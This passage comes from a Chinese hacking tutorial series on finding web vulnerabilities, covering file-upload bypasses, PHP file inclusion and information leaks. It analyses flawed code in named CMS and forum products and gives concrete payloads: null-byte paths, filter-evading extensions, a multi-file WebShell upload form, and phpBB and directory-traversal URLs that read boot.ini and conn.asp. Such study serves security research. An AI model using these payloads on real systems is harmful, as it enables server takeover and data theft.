upload.GetDate (int(Forum_Setting(56))*1024)
' 取得上传数据，不限大小
...
formPath=upload.form("filepath")
if right(formPath,1)<>"/" then formPath=formPath&"/"
' 在要保存的目录后加 “/”
for each formName in upload.file
' 列出所有上传了的文件
set file=upload.file(formName)
' 生成一个文件对象
if file.filesize<100 then
 response.write " 请先选择你要上传的图片 [ <a href=# onclick=history.go(-1)>重新上传</a> ]"
 response.end
end if
fileExt=lcase(file.FileExt)
' 将上传文件的扩展名变成小写字母形式
if CheckFileExt(fileEXT)=false then
 response.write " 文件格式不正确 [ <a href=# onclick=history.go(-1)>重新上传</a> ]"
 response.end
end if
randomize
ranNum=int(90000*rnd)+10000
' 产生随机数，用于后面的文件名
filename=formPath&year(now)&month(now)&day(now)&hour(now)&minute(now)&second(now)&ranNum&"."&fileExt
' 新的文件名
if file.FileSize>0 then
 ' 如果 FileSize>0，说明有文件数据
 file.SaveToFile Server.mappath(filename)
 ' 保存文件
...
```

注意“`filename=formPath&year(now)&month(now)&day(now)&hour(now)&minute(now)&second(now)&ranNum&"."&fileExt`”，这是程序将上传文件保存在服务器上的完整文件名，其中 `fileExt` 是一个被 `CheckFileExt` 函数限制的参数，所以我们不可能直接试图上传一些非法的文件类型。而 `formPath` 却是一个来自于用户的提交变量，我们可以修改这个变量值，让其加入断意字符，类似“`/myfile.aspNULL`”（其中 NULL 代表断意字符 `0x00`），这样在程序后面的保存中将直接保存上传的文件为 `myfile.asp` 文件，而忽略后面年月+随机数+扩展名的一串字符串。

之所以将代码分析放在前面，是因为想告诉大家，在实际面对一个目标程序时，截获正常的数据包后，要分析里面所有可以用来被利用的变量，不仅仅限于 filename 这样的地方，还有类似 filepath、path、name 等地方。在不看源代码，或者看不到源代码的情况，我们应该尽其可能地使用伪造数据包法测试，这样才可能发掘到漏洞。接下来的具体操作，我们可以按照前面讲解的部分进行，我随文提供了一个 VC 语言的实现代码，可以减去手工提交的麻烦，大家可以参考修改。

## 2）处理文件代码分析法

处理文件代码的分析方法依旧像我们在发掘注入漏洞中提到的基于代码的检查技术，它需要我们能够看懂 Web 程序，然后耐心分析找到漏洞。这个方法有一个出色之处，就是能够发现那些不是因为断意字符产生的上传文件漏洞，例如程序编写过滤不严，或者是没有做任何限制，还有就是多文件上传考虑欠妥的。

对于程序没有做任何限制而导致可以上传任意文件的这种情况，我们可以手工测试，不需要仔细分析代码本身。但是对于过滤不当引发的上传漏洞，最好还是看代码分析。常见的过滤不严情况有两种，我们先来看第一种。

```vb
If strKind = "asp" Then
  upload=forbidden
Else If strKind = "aspx" Then
  upload=forbidden
Else If strKind = "php" Then
  upload=forbidden
Else
  upload=allow
End If
```

这段代码摘自国内某个著名的论坛源码，我们看到 `strKind` 变量就是上传文件的扩展名，代表了文件类型。在 3 个 if 比较语句中，`strKind` 变量如果等于“asp、aspx、php”中的一种，`upload` 变量就会为禁止，也就是说禁止这些类型的文件上传，不然就允许上传。这段程序之所以这样做的目的在于防范脚本木马，也就是 WebShell 会被上传到网站服务器中，从而被非法控制服务器。

而一般常见的脚本木马确实就是以“asp、aspx、php”作为文件类型的，但这不代表全部的脚本木马都是这样。在 IIS 环境下，cdx 以及 cer 文件类型也会被当作 ASP 文件解析，而在 Apache 环境下，pl 类型文件以及 php3、php4 等类型的文件同样可以被用来制作成 WebShell。那么对于上面这段代码来说，我们上传一个 cdx 类型的文件就能成功绕过滤限制，获取主机控制权限。

第二种过滤不严则是由于程序编写者的错误思维模式导致的。我们再看下面的这段代码。

```txt
CheckFile(filename)
{
  If InStr(filename,"asp") Then
    Replace(filename,"asp", " ")
  Else If InStr(filename,"cdx") Then
    Replace(filename,"cdx", " ")
  End If
}
```

这段代码初看起来非常难以突破，因为它将所有可能利用的脚本木马类型全部使用 Replace 函数进行了过滤。可是问题是，这个过滤完全吗？如果只是单一的一次过滤，那么我们就可以突破这个限制。我们可以把要上传的文件扩展名改为：“.asaspp”，现在程序会检查到上传文件扩展名中有“asp”词组出现，然后将其替换成空，那么现在我们的文件扩展名成了：“.asp”，完全符合上传脚本木马的要求，漏洞就这样产生了。

多文件上传本来是一个简单的实现过程，但是往往由于程序员的马虎，在使用循环判断时，会出现当判断了某一个文件类型合法后，就会简单地认为其他的文件都是合法的。这样我们只需要将第一个文件设置成为一个合法的文件，然后将其后的文件设置为一个非法的 WebShell 文件，就会得到向服务器主机上传 WebShell 的机会。关于这一点，我们放到发掘实例中进行描述。

可以看出来，代码分析中发掘出来的上传文件漏洞，本来都是为了避免出现被 NULL Byte 利用而人为加上的一些过滤、判断限制，但是往往只是拆东墙补西墙，漏洞依旧出现在代码中，甚至使得漏洞利用变得更加简单。我们在对 Web 程序代码的检查中，一定要细心观察代码对文件处理部分的组织，很可能还有比这里描述的更加严重的上传漏洞出现。我在这里举出的这些例子，都是一些比较常见但却频繁发生的上传漏洞例子，还有的需要我们去触类旁通，多多思考，才能发现。

## 动力文章管理系统上传漏洞发掘实例

这个漏洞被发现的时间恰好也在 2004 年，国内的许多文章网站开始广泛使用一种叫做“My动力文章管理系统”的 Web 应用程序，这套系统是由 asp163.com 开发的。由于操作简单，加上有适当的安全机制，使得这套系统的用户量猛增。与此同时，国内一位有名黑客发现在动力文章系统中存在一个可以进行上传 WebShell 的漏洞。现在我们来一起重新温故一下这个当年引起一片恐慌的上传漏洞。

我们先在网站上注册一个用户，进入用户的文章管理，在这里可以添加软件与图片，但是 My 动力文件管理系统似乎限制只允许已定义的文件后缀上传，有没有办法突破呢？带着疑问我们来分析一下动力系统处理文件上传的代码。

```vb
const UpFileType="rar|zip|exe|mp3|rm|wav|mid"
' 定义了可以上传的文件类型

dim EnableUpload
' 定义了是否允许上传的终态变量

FoundErr=false
' 默认FoundErr变量为假，即没有发现错误
EnableUpload=false
' 默认EnableUpload变量为假，即不能上传（这是一个非常关键的变量）

for each formName in upload.file
' 列出所有上传了的文件（注意FOR循环！）
set cfile=upload.file(formName)
' 生成一个文件操作对象
arrUpFileType=split(UpFileType,"|")
' 取得前面定义的可以上传的后缀名
for i=0 to ubound(arrUpFileType)
  if fileEXT=trim(arrUpFileType(i)) then
    EnableUpload=true
    ' 上传文件类型与定义的后缀一样，设置EnableUpload变量为真
    exit for
  end if
...next
if fileEXT="asp" or fileEXT="asa" or fileEXT="aspx" then
    ' 只要是ASP、ASA、ASPX的后缀就认为是非法的文件类型
    EnableUpload=false
    ' 设置EnableUpload变量为假，即不允许上传
end if
if EnableUpload=false then
    msg="!这种文件类型不允许上传！只允许上传这几种文件类型：" & UpFileType
    ' 给出提示警告 FoundErr=true
end if
if FoundErr<>true then
    ' 如果FoundErr变量不为真，也就是没有发生不合法的文件上传，就准备开始保存上传文件
    randomize
    ranNum=int(900*rnd)+100
    filename=SavePath&year(now)&month(now)&day(now)&hour(now)&minute(now)&second(now)&ranNum&"."&fileExt
    ' 注意，这里没有改变上传文件的后缀
    ofile.SaveToFile Server.mappath(FileName)
    response.write "软件上传成功！软件大小为："&cstr(round(oFileSize/1024))&"K"
    strJS=strJS&"parent.document.myform.DownloadUrl1.value='"&fileName&"';"
    strJS=strJS&"parent.document.myform.SoftSize.value='" & cstr(round(oFileSize/1024)) & "';"
end if
```

我们分析一下这段代码就会发现，动力文章系统是允许多个文件的，“for each formName in upload.file”这一句就是用于取得所有 form 中提交的文件名。第二个 for 循环“for i=0 to ubound(arrUpFileType)”用于检测文件类型，如果不满足条件则关键变量 EnableUpload 为默认值 false，而 EnableUpload 一旦为 false 时，关键变量 FoundErr 值变为 true，程序就阻止上传文件。

我们的目的就是想办法避免 FoundErr 值的改变，让它保持默认值 false。我们注意到“if fileEXT=trim(arrUpFileType(i)) then”这一句，如果满足条件则 EnableUpload 为真，此时这里成为我们的一个突破点。因为程序允许多文件上传，如果我们上传的第一个文件为一个 rar 文件，则因为这是一个符合程序限定后缀的文件，使得 EnableUpload 为真，然后该文件被保存，代码返回到循环开始；现在第二个被上传文件是一个后缀为 PHP 的程序，程序判断到这个不是它限定的那几种后缀，退出判断循环，注意这时的 EnableUpload 还是为真的，然后程序进行二次判断，发现 PHP 不等于 asp、asa、aspx，于是继续向下执行。因为 EnableUpload 为真，而 FoundErr 变量一直保持默认值 false，所以我们第二次上传的 PHP 文件竟然也会被程序保存在服务器上。

现在，我们发现正是因为第一个上传文件是合法文件，导致循环判断时 EnableUpload 被改为真，后面上传的文件只要不是 asp、asa、aspx 文件就都可以被上传到服务器上。又由于 cer 文件与 asp 文件的作用一样，但又不在动力系统的限制范围内，使得我们可以将 asp 型 WebShell 存为 cer 文件，再通过制作多文件上传表单，将木马上传到网站服务器上。

这个上传漏洞就属于我们说的逻辑型上传漏洞，开发者没有考虑到多文件情况下的文件限制，导致可以被聪明的攻击者绕过安全限制，从而上传木马程序。作为补充内容，再给大家说一下多文件上传表单的代码编写，因为动力文章系统本身给出的也只是一个单文件上传表单，要想利用这个漏洞，我们还必须自己构建一个多文件上传表单，这个表单的代码如下：

```html
<form action="http://www.target.com/upfile.asp" method="post" name="form1" enctype="multipart/form-data">
    <input name="FileName1" type="file" size="40">
    <input name="FileName2" type="file" size="40">
    <input type="submit" name="Submit" value="上传">
</form>
```

这段代码中就是多加了一个 input 标签，将这个 input 标签的名字设置成与原先的不同，属性 type 依旧为 file，保存该代码为 HTML，就可以构造出一个多文件上传表单了。

好了，关于上传漏洞的发掘就先讲到这里，若有不明白之处，欢迎大家到黑防论坛提问，我们共同讨论研究。

前置知识：无

关键词：脚本、注入、漏洞发掘

## 黑客漏洞发掘技术内幕系列之六：包含式&信息泄漏式漏洞的发掘技术


文／图 旻无言

开始之前，我先说明一个问题。如果你一直关注本系列文章的话，一定会注意到这次的标题有所不同，名字叫做“包含式&信息泄漏式漏洞的发掘技术”这样一个复合题目，不像以往那样单纯地讲解一种形式的漏洞发掘技术。这是因为我们这次涉及到的两种漏洞类型的表现形式非常类似，甚至在某些时候是同时存在的。更准确地说，信息泄漏式漏洞的范畴更大一些。为了能够更好地组织本系列文章的结构，所以这次我将采用对两种漏洞同时做分析讲解，先讲包含式漏洞，再讲信息泄漏式漏洞，这样能更有层次一些。

现在要求你写一个可以把某个文件夹下所有文件的内容显示到网页上的程序，你会怎么写？你难道要将前面写的两个文件内容统统复制到一个新的文件里，然后调整程序流程，测试这个新的文件看可不可以达到目的？如果这样做，你写出的代码会非常乱，结构不清晰，也许文件也会因此变得很大。现在，如果你使用包含语句，新建一个文件，在文件的开始利用 include 语句包含进上面两个文件，此时你就可以直接调用这两个文件中的任意函数来实现目的。你甚至是可以把它做成动态的：在需要列目录时，包含进 `list.php`；在需要读取文件内容时，包含进 `read.php`，极大地方便了程序开发者。但是问题出来了，正是因为包含进的文件中的代码可以被执行，那么如果我们现在包含进入一个 WebShell 程序，甚至它可以是 txt 这样的非 Web 应用程序格式被包含，那么它里面的代码也会被执行。

## 包含式漏洞基础

我们常常听说包含式漏洞，一般都将其归纳入 PHP 语言编写的 Web 应用程序漏洞中，这其实很不妥。对于所有的 Web 开发语言来说，“包含”一词的意思就是指在一个文件中引入另一个文件，那么包含式漏洞就可以出现在任何 Web 应用程序中。例如有人曾提出，利用在 ASP 文件中使用 include 语句，将保存为图片格式的 WebShell 引入正常的 ASP 文件来进行隐蔽的执行。经过测试，这种方法是可行的。但由于 PHP 语言的编写特性，导致我们将更多的注意力集中在对 PHP 型 Web 应用程序的包含式漏洞发掘上，将主要讲解 PHP 包含式漏洞的发掘方法。

本来，因为文件格式不是服务器端脚本格式，这个脚本木马不会被执行，可是在使用 include 包含语句下，无论被引入的文件格式是什么，它里面的代码都会被当作引入代码被调用执行。如果有一个 Web 应用程序，它允许用户自定义要包含的文件名称，此时我们就可以直接给它赋值为某个脚本木马所在的文件路径，甚至是网址。奇迹发生了，这个脚本木马被执行了，而这仅仅是因为我们利用了“包含”的性质而已。包含式漏洞的危害还不仅仅限于执行代码，还可能会泄漏我们的隐私。关于这一点我将在“信息泄漏式漏洞”中进行讲解。

从应用开发角度来讲，“包含”是一种非常不错的使用模式。比如你编写了一个文件专门用来读取文件内容并显示在网页上，这个文件起名叫 `read.php`；又编写了一个文件专门列出某个文件夹下的所有文件名，起名叫 `list.php`。

## 发掘包含式漏洞的方法

明确了基础部分的知识，我们可以知道，对于这种漏洞的发掘无非是要找到具有包含引用的地方。如果你有目标程序的源代码，那么我们将在后面的“特征函数查找法”中教大家如何具体分析到这个包含引用的地方。这里我们先学习在没有源代码的情况下应当怎样进行发掘工作。

### 1）观察法

这种方法其实是我们一直在使用的方法。无论是在 XSS 漏洞还是注入漏洞的发掘中，我们始终将目标程序从外界获取的参数作为关键变量来进行测试发掘，这里也不外乎这种思想。包含漏洞之所以出现，就是因为程序将所要包含的文件名称作为一个参数交给了用户来修改，这就带来了巨大的安全隐患。如果将要包含的文件名参数只是固化在程序中，或者由程序自己内部赋值，那么就能有效地避免这种漏洞的出现。Web 应用程序在获取这些外部参数的时候，往往就是通过表单或者 URL 地址形式来获得，所以我们在发掘包含式漏洞的时候，完全可以凭借对这些关键地方的观察来寻找漏洞存在的影子。

尤其是对于那些在 URL 地址中出现完整文件名称或者缩写文件名称的，或者参数值是一个字符串的，我们要注意在这些地方进行一下包含漏洞的发掘测试，把这些文件名或者字符串换成诸如“../”“test.txt”“test.txt%00”“index.php%00”等形式来观察结果。

对于结果，因为我们常常将此类漏洞归于 PHP 型 Web 漏洞，那么无论是 Linux 还是 Windows 下，搭建 PHP 环境都需要 PHP 解析程序。如果解析程序的配置文件 php.ini 中没有关闭程序出错回显这个属性，一旦程序出错，那么服务端就会自动将出错原因暴露给客户端，这对于发掘 PHP 包含漏洞可以起到很大的帮助作用。

举一个例子，假设我们访问了一个目标程序，当我们点击其中一个超链接时，出现了图1所示的结果，也就是 PHP 出错后的错误回显。注意“Failed opening '' for inclusion”这句话，其意思就是“在使用包含的时候打开 '' 出错”，非常明显，这个程序在利用包含语句来获得另外一个文件的内容。此时，我们就已经确定程序存在一个包含漏洞隐患。


图1

在一个包含漏洞隐患中，但究竟能不能利用，还要观察能不能为这个包含提交一个关键变量。假设你再点击另外一个链接，此时的结果如图2所示。注意观察浏览器地址栏里的内容，你会发现这里使用的还是这个 include.php 文件，但后面多了一个参数“filename”，同时你会发现 filename 现在的数值是一个文件名“index.htm”。这时，你就要进行一下测试，将这个 index.htm 换成“../”，现在让我们再来看一下，如图3所示。


图2


图3

程序再次出错了，但这次的出错提示是：“Failed opening '../' for inclusion”，打开“../”出错。看到这句话我们完全可以判断出，目标程序 include.php 使用了包含语句，试图包含由 filename 参数引入的文件，而 filename 参数可以由用户任意修改，这就构成了一个包含式漏洞。如果我们构造一个写有恶意代码的文件保存成 Web 程序允许的格式，然后上传到该服务器上，或者找一个通过 URL 访问的写有恶意代码的文件，我们只需要将 filename 参数改成那个文件的路径名称或者 URL 地址，就能成功利用该漏洞获取服务器权限。我这里演示的是通过包含漏洞获取服务器信息的利用，如图4所示。


图4

观察法是一种简单易行的发掘方法，利用对关键变量的观察，借助程序报错来对目标程序进行发掘测试。对于那些无法获得源代码的 Web 应用程序，或者是被加密的代码程序（PHP 中可以利用 zend 进行源码加密），我们可以充分利用观察法间接地进行程序漏洞寻找和定位。这种方法的不利点是，由于只能利用报错形式来准确判断，在没有回显的情况下，对于一般的发掘者来说，此方法显得有些茫然。并且有时由于目标程序对外部参数进行某些加密后再传递给包含语句，使得我们在看到诸如“filename%3D..%2F..%2Findex”这样的加密参数传递形式时，难以判断应该如何进行测试。在没有原始代码的情况下，你甚至先要破解这些加密算法，然后才能继续发掘漏洞。

### 2）特征函数查找法

如果有了目标程序源代码，并且这份代码没有加密，那么上面说的种种不利因素就会迎刃而解了（这里补充说明一下，对于 PHP 加密的 zend 算法已经有了破解。以往的 Discuz 论坛曾有加密的代码，我当时为这个还专门弄了一阵子解密，现在看来真是辛苦；有了 zend 解密文件，可以说一切对我们都是透明的，我们可以真正来集中精力发现漏洞了。相应的解密程序，大家可以直接联系我索要，网上也可以下载到）。

在对源代码的包含漏洞发掘中，我们首先要寻找的就是那些具有包含性质的特征函数，这些特征函数包括 include()、require()、include_once()、require_once()。从这些函数的名字上，我们可以清楚地看出它们的用途只有一个，就是进行外部文件的包含引用。其中 include_once()、require_once() 适用于在脚本执行期间，同一个文件有可能被包含超过一次的情况下，编程者为了确保文件只被包含一次，以避免函数重定义、变量重新赋值等问题时使用。

还记得我们曾经使用过的 DreamWeaver 吗？这里你还可以按照建立一个站点的形式，将你要分析的目标程序全部导入后进行查找，查找的对象就是前面提到的特征函数。对于单一的某个文件，你完全可以使用 NotePad++ 来进行分析。关于这种方法的具体操作，这里我们看一个实际发掘的例子。

对于 PHPBB 论坛来说，这个国内外知名度很高的论坛程序，其 2.0.13 版本曾出现过一个致命的包含式漏洞。我们使用 NotePad++ 打开其中名为“admin_styles.php”的文件，使用查找功能，查找对象为“include”函数，第一次查找，我们来到代码第78行。

```php
(1) switch( $mode ) {
(2) case "addnew":
(3) $install_to = ( isset($HTTP_GET_VARS['install_to']) ) ? urldecode($HTTP_GET_VARS['install_to']) : $HTTP_POST_VARS['install_to'];
(4) $style_name = ( isset($HTTP_GET_VARS['style']) ) ? urldecode($HTTP_GET_VARS['style']) : $HTTP_POST_VARS['style'];
(5) if( isset($install_to) )
(6){include($phpbb_root_path . "templates/" . $install_to . "/theme_info.cfg");}
```

其中第二行的 $mode 参数是一个关键变量，可以获取外部数据。代码第二行判断这个变量的值是不是等于“addnew”，如果是，则进入第三行代码。此时你可以清晰地看出，$install_to 变量完全来自用户提交的外部数据。当这个外部数据是以 Get 形式提交的时候，则进行 urldecode 函数的解码，因为所有通过 Get 形式发送的数据都会被使用 URL 编码格式进行数据发送，但这并不会影响我们对这个参数的任意赋值。第四行代码与第三行代码一样，使用外部数据对 $style_name 变量进行赋值。接着第五行代码判断变量 $install_to 是不是空，也就是没有获得到任何数据；如果不空就进入第六行。注意这个时候，include 函数的参数是一个变量组合，其中 $phpbb_root_path 已经被程序固定化，我们不能修改，但这个时候 $install_to 变量却身在其中，而这个变量是完全可以由用户任意赋值的。

代码分析完后，我们实际测试一些 PHPBB 论坛。打开浏览器，用管理员账户登录后，我们来到后台控制面板。在“Styles Admin”分类里有一个“Add”链接，可以使我们访问到“admin_styles.php”文件，并且此时 URL 中的 mode 变量已经被赋值为 addnew，符合了我们分析的代码第一、二行的条件。如果我们此时能将 $install_to 变量进行赋值，那么我们很可能会触发一个包含式漏洞，但是我们没有看到这个变量出现在地址栏里，所以需要手工来添加这个变量。你应该构造这样的 URL 地址：

`http://127.0.0.1/phpbb/admin/admin_styles.php?mode=addnew&install_to=theme_info.cfg%25%30%30&sid=0ffeb9cdb8c8db5b357029924fdb16a`

将这个地址放入浏览器进行访问，程序出错了，如图5所示。根据在观察法中使用的技巧，可以确定 PHPBB 报错的内容显示出这是一个包含式漏洞。


图5

总的来说，特征函数法使用的完全是对包含式漏洞的成因进行分析发掘。这种发掘方式高效，并且能将隐藏的包含漏洞发掘出来，也能发现具体的一些程序本身的加密手段，避免了盲目性。可以说特征函数法是包含式漏洞的发掘圣手，需要的只是多加练习而已。

## “最不起眼”的漏洞

你一定会发现，这是我们第一次在标题上使用了双引号，因为本节我们要分析的这个漏洞，在大多数的程序员眼里，甚至一些自称“黑客”的人眼里，这个漏洞几乎不算是个漏洞，充其量也许就是程序的一个“小问题”。

信息泄漏式的漏洞真的如此不值一提吗？在回答这个问题前，我们先来看看什么叫做信息，我们这里的“信息”又具体指的是什么。

“信息”不是一个有了计算机后才出现的词语，早在人类出现的时候，就出现了信息。那时的信息是用来记录人类看见、听见的事情，在接下来的历史中，信息依旧扮演着这个角色。广义的信息就是指那些包含了有用目的的数据，包括图片、文字、声音等，而我们这里的信息则是一个建立在只针对计算机范围上的有用数据。还记得我们在注入漏洞一文中提到的，通过注入漏洞我们甚至可以读取服务器主机的指定文件，看到服务器的系统配置。本来作为 Web 应用程序没有想提供给用户这些信息，但是通过注入漏洞让我们能够获得这些“不该看”的信息，这就属于一种信息泄漏。

可以说信息泄漏式漏洞是一个影响最广的漏洞了，Web 程序自身的编写问题加上服务端程序的设置不当，小则泄漏主机名称或者 IP 地址，大则泄漏文件代码，甚至是获得主机上的任意文件。很多 Web 程序开发者不注意信息泄漏式漏洞，认为其影响微乎其微。尤其是有些情况下，Web 程序开发者认为自己开发的程序只是会出现某些报错提示，单凭这些提示，攻击者不可能成功攻击主机。正是这样的思想导致很多大型的门户网站，在攻击者没有任何代码的情况下还是被入侵了。我曾经对国内一个 IT 产品的门户站点进行测试，发现其 Web 程序对小数点的处理不当，使得我获得浏览网站目录的权限。通过不断地变换路径，我甚至找到了这个门户网站主站论坛的全部 JSP 代码。

事后我将问题反馈给了这个站点的管理员，结果是他们简单地将论坛换成了 Discuz5，抛弃了原先那个不错的 JSP 论坛。抛开这件事情的复杂性，我们可以看到信息泄漏式漏洞完全可以使得网站主机陷入危险的境地。对于一个出色的攻击者来说，些许的信息也许就会使他找到打开网站大门的钥匙。所以，如果你是一个 Web 程序开发者，请务必注意这些小而危险的漏洞。

信息泄漏式漏洞的具体分类非常多，我只在这里列出一些比较重要的类别。

- 第一类是脚本出错导致的网站物理路径泄漏。这一种漏洞表现，你完全可以看看前文讲包含式漏洞时引入的那几幅图片，例如图1。我们看到在那个警告的英语句子中，明显地出现了“C:\Program Files\xampp\htdocs\phpBB\include.php”这样关于服务器网站的完整物理路径。
- 第二类是允许任何人进行远程网站目录遍历。这种漏洞曾出现在桃源网络硬盘系统中，主要是利用给关键变量直接赋值为网站目录名，进行跨目录访问，或者直接利用“../”这个特殊的表达式来获取跨目录访问权限。
- 第三类是获得任意文件访问或下载权限，还是利用关键变量的修改，将试图下载的具体文件名赋值给关键变量，从而访问或者直接下载。
- 第四类是暴库，这个是一个较新的信息泄漏式漏洞，往往出现在 ASP+Access 应用环境中。因为在 ASP 编写的代码中，一般要使用容错语句“On error resume next”对程序全局进行容错处理，一旦没有这样的语句，在对 Access 链接中就会出现问题。如果程序非法修改 URL 路径，就会导致一个相对路径引用错误，从而导致程序出错，显示出数据库的实际路径来。这种漏洞曾经风靡一时，引起网络一片恐慌。

信息泄漏式漏洞往往和包含式漏洞同时出现，这是因为在 PHP 程序中，include()、require()、include_once()、require_once() 这4个函数不但可以起到执行包含文件代码的功能，还能起到读取引入包含文件内容的作用。大家注意看图6，这个还是前面提到的 PHPBB 论坛的那个包含式漏洞。我们现在直接给 $install_to 变量赋值为“..%252f..%252f..%252f..%252fboot.ini%25%30%30”，这段加密的代码实际就是“../../../.../boot.ini%00”。通过跨目录引用 boot.ini 文件，这样我们就成功读取到了 boot.ini 文件的内容。

## 发掘信息泄漏式漏洞的方法

正像前面提到的，此类漏洞和包含式漏洞常常并发出现，所以你完全可以将发掘包含式漏洞的方法用到对此类漏洞的发掘工作上：如果该程序存在包含式漏洞，那么你就可以通过传递你想要读取文件的路径加名称，来读取该文件的内容。

对于泄漏物理路径式的漏洞，主要出在对网站服务器的配置上。无论是搭建解析 PHP 程序的环境，还是搭建解析 Perl 程序的环境，一旦管理这些环境的配置文件中没有将“显示网站出错信息”的选项关闭，我们就可以通过向这些 Web 程序发送一些非法数据来观察它的返回信息。虽然我们看到在测试程序包含式漏洞中也能通过提交错误的外部参数，来使程序出错回显路径，但是发掘方法不单单限于这一种情况。像下面这段代码：

```php
$id=$HTTP_GET_VARS['id'];
$id=6/$id;
echo $id;
```

变量 id 是从外部获取的一个数值，然后 id 作为被除数，与数值 6 做除法，最后 id 被回显到网页上。这里的 id 应该是一个数字，因为它要与 6 作一个除法计算，只有数字可以这样做。但前面 id 的值只是简单地来自以 Get 形式发送过来的外部数据，丝毫不判断这个数据是不是数字形式的。如果我们传递一个字母给 id，结果会怎样呢？如图7所示。程序出错，暴露出了网站程序的物理路径。原因就在于，我们传递给 id 的数值是一个字母，字母不等于数字，这样一旦 id 被放入到除法公式中，PHP 会自动将它的值改为 0，0


图6


图7

是不能作为被除数的，所以程序出错了。

对于获取下载任意文件的泄漏式漏洞，我们要将注意力放在 Web 程序对文件的处理代码上。很多时候，Web 应用程序是通过传递给它的文件名参数来判断用户想要下载哪个文件，如果我们修改了这个关键的参数，或许我们就有机会下载我们想要的文件。以新云网站管理系统 2.1SP1 作为例子，我们来看一下它处理文件下载的关键代码。

```vb
Dim url,strUrl,strPath
url = Replace(Replace(Replace(Request("url"), "'", ""), "%", ""), "\\", "/")
' 首先进行一些字符的替换，' 换成空，%也换成空，\\换成/
If Len(url) > 3 Then
    If Left(url,1) = "/" Then
        Response.Redirect url
    End If
    If Left(url,3) = "../" Then
        Response.Redirect url
    End If
    strUrl = Left(url,10)
    If InStr(strUrl,"..//") > 0 Then
        Response.Redirect url
    End If
    If InStr(url,"//") > 0 Then
        strPath = Server.MapPath(".") & "\\" & url
        strPath = Replace(strPath,"/","\\")
        Call downThisFile(strPath)
    Else
        Response.Redirect url
    End If
End If

Sub downThisFile(thePath)
    Response.Clear
    On Error Resume Next
    Dim stream, fileName, fileContentType
    fileName = split(thePath,"\\")(UBound(split(thePath,"\\")))
    Set stream = Server.CreateObject("adodb.stream")
    stream.Open
    stream.Type = 1
    stream.LoadFromFile(thePath)
    Response.AddHeader "Content-Disposition", "attachment; filename=" & fileName
    Response.AddHeader "Content-Length", stream.Size
    Response.Charset = "UTF-8"
```

```vb
Response.ContentType = "application/octet-stream"
Response.BinaryWrite stream.Read
Response.Flush
stream.Close
Set stream = Nothing
End Sub
```

这段代码是新云系统用来管理 flash 分类，主要负责读取服务器上的 flash 文件，然后反馈给用户下载，其中 url 是一个关键变量，来自用户提交的 flash 文件名，而 flash 文件一般位于 upfile 文件夹下，所以 url 变量的一般形式为：upfile/2007/20078922988.swf。我们看到，本来新云系统为了防止用户利用修改 url 变量值来达到下载指定文件的目的，专门使用 replace 函数对 url 变量进行了过滤，然后使用 left 函数作判断，但是很奇怪的是，系统只判断 url 前 3 个字符是不是 "../"，但是我们分析了 url 的一般形式前 3 个字符不会是 "../"，那么新云系统这段过滤代码就丝毫没有起到作用。我们如果提交 flash/downfile.asp?url=uploadfile/../../conn.asp，我们就能成功跨越目录下载到网站管理数据库的文件 conn.asp，有了这个文件，网站数据库也就可以找到了。

下载任意文件式的漏洞意味着，如果我们知道服务器上存在哪些文件，我们就可以下载到这些文件，这些文件也许不但涉及到网站注册用户的个人信息，也可能会将服务器内部的一些较为机密的数据暴露到服务器外部。

远程网站目录遍历式的漏洞，最重要的原因还是对 "../" 这种特殊字符处理不当造成的。在各种开发语言中，“../”是代表父目录的意思。如果 Web 程序在处理文件目录参数时，没有过滤这种特殊字符，而文件目录参数又来自用户提交外部数据，这个时候就会出现用户自行修改提交给程序的目录参数，通过这种方式来获得读取其它文件目录的权限。

暴库式的信息泄漏漏洞是一种只针对 ASP 语言开发的 Web 应用程序漏洞，并且还限定目标程序的数据库应当是 Access 型的。因为在 ASP 语言中，开发者在写代码时，难免会出现编写错误，有时这些错误只是一些不甚严重的语法错误，有的只是一些小的显示错误，这个时候，如果开发者为了纠正这个错误进行整篇代码的查找，庞大的代码中，很难定位到错误出现的原因，为了不影响程序的正常使用，ASP 专门提供了一个容错语句作为缓解这种情况的方法，这句 ASP 容错代码是：`<%on error resume next%>`。开发人员在所有代码的最开始使用这句代码，一旦后面程序中出现“小错误”，程序都会继续往下执行，不会影响 Web 访问者对网站的访问。同时，这句容错代码还可以将程序出错后的不友好信息给屏蔽起来，达到了界面友好性。可是很多时候，开发者没有培养使用这种容错语句的良好习惯，这就给我们留下了可乘之机。

2005 年的时候，国内一个安全论坛上出现了一篇帖子，在这篇帖子中出现了一种全新的网站攻击模式，其大意是：在访问 ASP 编写的 Web 程序时，如果将 URL 地址中二级目录的“/”换成“%5c”，将有可能导致程序出错，从而暴露出网站数据库的路径。举个例子来说，我们访问的 URL 地址是：http://www.target.com/test/1.asp，其中 test 就是一个二级目录，如果将它后面的“/”换成“%5c”，那么我们就可能会得到数据库的地址。为什么会这样呢？一般的 ASP 应用程序会将管理数据库的连接代码放到一个单独的文件里，其它程序在操作数据库的时候只需要简单地将这个文件包含进来就可以进行数据库操作。在这个数据库连接文件中，数据库的位置是使用 server.mappath 函数来寻找的，这个函数的作用是将相对路径映射为实际物理地址，这样才能找到数据库文件。所以在引入这个连接文件的程序里，这个数据库地址也应该是相对于引入文件的。但是当我们将 URL 地址中的“/”换成“%5c”时，虽然网站服务器环境能够明白“%5c”就是“/”的一个 URL 编码，所以 URL 地址保持原样，可以正常访问，可是：在 ASP 程序里就不是这样了。被引入的数据库连接文件是相对于引入文件的，那么一旦“/”符号被编码，程序不认这个编码，致使数据库连接文件相对引入文件的路径变化，此时 server.mappath 函数就会发生映射错误，导致程序无法找到数据库文件而出错。恰好在这个时候，处理数据库连接的文件中又没有写入容错语句，自然而然地就会把出错信息返回，这些出错的信息就会显示有关数据库的路径、文件名信息，如图 8 所示。


图 8

明白暴库漏洞出现的原理后，我们就可以分析出暴库漏洞不仅限于二级目录，甚至可以人为制造二级目录来达到攻击只有一级目录的网站。例如我们可以构造 http://www.target.com/aaa/..%5cindex.asp 这种形式的 URL 地址，由于“../”代表父级目录，所以上面的 aaa 是一个无效的二级目录，真正的目录只有一级。

对于暴库式的漏洞，最好的办法就是利用这种构造目录地址的形式进行测试，同时也可以注意分析管理数据库连接的文件中是不是没有容错语句，这一点很关键。

